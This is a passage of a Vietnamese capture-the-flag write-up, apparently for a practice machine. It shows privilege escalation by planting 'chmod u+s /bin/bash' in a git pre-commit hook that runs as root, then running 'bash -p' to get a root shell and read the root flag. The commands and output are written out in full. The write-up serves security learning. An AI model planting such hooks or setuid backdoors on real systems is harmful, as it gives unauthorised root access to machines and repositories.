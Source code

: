> Nôm na, là mỗi lần git thực hiện commit thì sẽ thực hiện các script có trong pre-commit trước bới các git-hooks.

Ở đây mình chỉ đơn giản convert /bin/bash sang SUID bằng cách thêm `chmod u+s /bin/bash` vào file pre-commit.sample có trong folder `/.git/hooks` sau đó rename thành pre-commit.

```console
dev01@opensource:~/.git/hooks$ cat pre-commit 
#!/bin/sh
#
# An example hook script to verify what is about to be committed.
# Called by "git commit" with no arguments.  The hook should
# exit with non-zero status after issuing an appropriate message if
# it wants to stop the commit.
#
# To enable this hook, rename this file to "pre-commit".

chmod u+s /bin/bash

if git rev-parse --verify HEAD >/dev/null 2>&1
then
        against=HEAD
else
        # Initial commit: diff against an empty tree object
        against=4b825dc642cb6eb9a060e54bf8d69288fbee4904
fi

<--SNIP-->

```

Giờ ta cứ chờ đợi cho đến khi sticky bit được set.

![](../../attachments/Screenshot_2022-07-25_05_55_48%201.png)

## `👽` Root Own

Lấy `flag` của `root` thôi.

```console
dev01@opensource:~/.git/hooks$ bash -p
bash-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) groups=1000(dev01)
bash-4.4# cat /root/root.txt
################################
```

